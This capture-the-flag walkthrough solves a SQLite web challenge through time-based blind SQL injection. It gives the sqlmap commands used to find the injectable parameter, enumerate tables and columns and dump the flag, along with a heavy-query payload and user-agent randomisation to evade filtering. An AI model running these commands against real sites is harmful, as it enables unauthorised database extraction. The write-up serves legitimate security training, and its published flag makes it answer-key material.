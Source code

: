 # SQL Always Sucks

## Challenge
* Category: Web Security
* Points: 150

We discovered an application in our environment that is apparently under development.
Please identify the risk it poses. http://challenge.acictf.com:28986

Note: Solutions to this problem are known to be sensitive to connection latency.
If your solution is working but very slowly, you may be able to speed up the process by running it from the competition's shell server.
https://cyberstakes.acictf.com/shell

### Hints
* It's sometimes useful to know what kind of database is behind a webapp before trying to attack it. It can save you time and really narrow your efforts. I wonder if the developers accidentally left any clues laying around.
* SQL injuection attacks don't always result in you getting raw database contents sent directly back to you. Sometimes it is all about [patience](https://www.sqlinjection.net/time-based/) and [timing](https://hackernoon.com/timing-based-blind-sql-attacks-bd276dc618dd).
* Some attacks just are not practical to do by hand because they require precision and lots of repetition. Thankfully, tools like [sqlmap](https://github.com/sqlmapproject/sqlmap/wiki/Usage) can automate much of this for you. It even comes pre-installed on our shell server!
* Many tools use unique user-agent strings by default. If you notice that curl or sqlmap don't appear to be working properly, you may need to look into whether you can configure them to "impersonate" something else


## Solution

### Tools
* sqlmap
* Popcorn and Netflix

This challenge is no longer available after the competition.  Hopefully we can put together a decent walkthrough from my notes.

Start by entering a name in the form and lets see what response we get back. Inspect that page to see if there are any unusual details.

![response](response.png)

There are two interesting parts in the HTML response.
* We see some comments in the HTML that inform us the backed DB is Sqlite
  * `<!--Dev is only using Sqlite. Bobby Needs to fix this -->`
* There is also a raw SQLite query in the debug class further down. This gives us more information about potential columns in a SQLite table.
  * `<p class='debug'> Debug: Last SQLite Query: SELECT lastname FROM Users WHERE firstname='blarg'</p>`

So far we know the backend DB is `SQLite`, there is a table called `Users` with columns `lastname` and `firstname`.

Kick off a `sqlmap` query to try and enumerate further details about the database.  Paying close attention to the hints above, we will most likely need to incorporate some randomization in the `User Agent` as well as time-sensitivity settings.

```
$ sqlmap -u "http://challenge.acictf.com:28986/?firstname=blarg" --dbms=SQLite --random-agent --time-sec=3 --level=4 --risk=3 --union-from=users

... (Im truncating output)

[01:56:29] [INFO] GET parameter 'firstname' appears to be 'SQLite > 2.0 OR time-based blind (heavy query)' injectable
[02:02:06] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
GET parameter 'firstname' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 2286 HTTP(s) requests:
---
Parameter: firstname (GET)
    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: firstname=blarg' OR 9267=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(300000000/2))))-- vlWw
---
[02:02:54] [INFO] the back-end DBMS is SQLite
```

That query did not give us much more information than we already knew from reading the HTLM, but it did confirm we are dealing with a SQLite database. Lets form an approach for enumerating the database.

#### Approach
* Enumerate table names
* Enumerate columns for tables
* Get data from columns of interest in a specific table, ie: column=flag


#### Enumerate Table Names
Try again, but use the `--dbms=SQLite`, `--random-agent` and `--tables` flags for sqlmap. The first tells sqmlap we are dealing with a SQLite database. The second randomizes the User-Agent string sent with the requests and the last focuses on [enumerating database tables](https://github.com/sqlmapproject/sqlmap/wiki/Usage#enumerate-databases-tables). When sqlmap asks you to `optimize value(s) for DBMS delay responses` type `y`.  __This query is going to take a long time__, go ahead a make some popcorn and binge-watch something on Netflix.

```
$ sqlmap -u "http://challenge.acictf.com:28986/?firstname=blarg" --dbms=SQLite --random-agent --tables

... (truncated output)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y

... (truncated output)
Database: SQLite_masterdb
[2 tables]
+-----------------+
| SuperSecretData |
| Users           |
+-----------------+
```

Excellent. We now know there are two tables `SuperSecretData` and `Users` in the `SQLite_masterdb` Database and I have not decided if Tiger King is a true-crime documentary or a trashy reality-tv show.


#### Enumerate Columns for Tables

This time we are going to try and get the names of the columns in the `SuperSecretData` table. Add `-D SQLite_masterdb`, `-T SuperSecretData`, and `--columns` to our sqlmap query string. The first flag names the database to enumerate. The second flag names the Table to enumerate. The last flag tells sqlmap what to enumerate from the table (ie the table columns).  Continue to let sqlmap optimize DBMS delay responses by answering `y` when prompted. Kick off this query and go for a run. It's going to be a while before we get the results back.

```
$ sqlmap -u "http://challenge.acictf.com:28986/?firstname=blarg" --dbms=SQLite --random-agent -D SQLite_masterdb -T SuperSecretData --columns

... (truncated output)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y

... (truncated output)
Database: SQLite_masterdb
Table: SuperSecretData
[2 columns]
+--------+---------+
| Column | Type    |
+--------+---------+
| flag   | TEXT    |
| ID     | INTEGER |
+--------+---------+
```

Sweet! We can see that there are two columns `flag` and `ID` in the `SuperSecretData` table.


#### Get Data (the flag)

This time we are going to try and get the flag by dumping DBMS database table entries. Formulate your query by adding `-C flag` and `--dump` to your query. The first argument specified which table column to focus on and the second tells sqlmap to dump its contents.

```
$ sqlmap -u "http://challenge.acictf.com:28986/?firstname=blarg" --dbms=SQLite --random-agent -D SQLite_masterdb -T SuperSecretData -C flag --dump

... (truncated output)
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y

... (truncated output)
Database: SQLite_masterdb
Table: SuperSecretData
[1 entry]
+----------------------------------+
| flag                             |
+----------------------------------+
| ACI{59df47a3243d2f239ea878a7266} |
+----------------------------------+
```

Boom! We have our flag. **ACI{59df47a3243d2f239ea878a7266}**

You could have used the following queries to enumerate the User table, but it's not necessary. You would have found the lastname and firstname columns are filled with 20 `NULL` values.

```
$ sqlmap -u "http://challenge.acictf.com:28986/?firstname=blarg" --dbms=SQLite --random-agent -D SQLite_masterdb -T Users --columns
$ sqlmap -u "http://challenge.acictf.com:28986/?firstname=blarg" --dbms=SQLite --random-agent -D SQLite_masterdb -T Users -C lastname --dump
$ sqlmap -u "http://challenge.acictf.com:28986/?firstname=blarg" --dbms=SQLite --random-agent -D SQLite_masterdb -T Users -C firstname --dump
```
